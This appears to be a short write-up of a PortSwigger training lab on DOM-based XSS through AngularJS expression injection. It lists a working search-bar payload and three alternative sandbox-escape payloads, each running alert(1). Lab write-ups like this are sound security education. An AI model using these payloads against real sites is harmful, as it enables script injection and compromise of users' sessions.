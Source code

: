 # DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
Lab URL :- `https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression`

Payload in Search bar :-

![image](https://user-images.githubusercontent.com/60841283/153716136-d9f8a934-6355-4865-a32d-ab0615c380cd.png)

```html
{{constructor.constructor('alert(1)')()}}

# Other payloads that works
{{$on.constructor('alert(1)')()}}
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

![image](https://user-images.githubusercontent.com/60841283/153716154-2e31496d-6588-4f04-afe8-4fa4199ae65b.png)
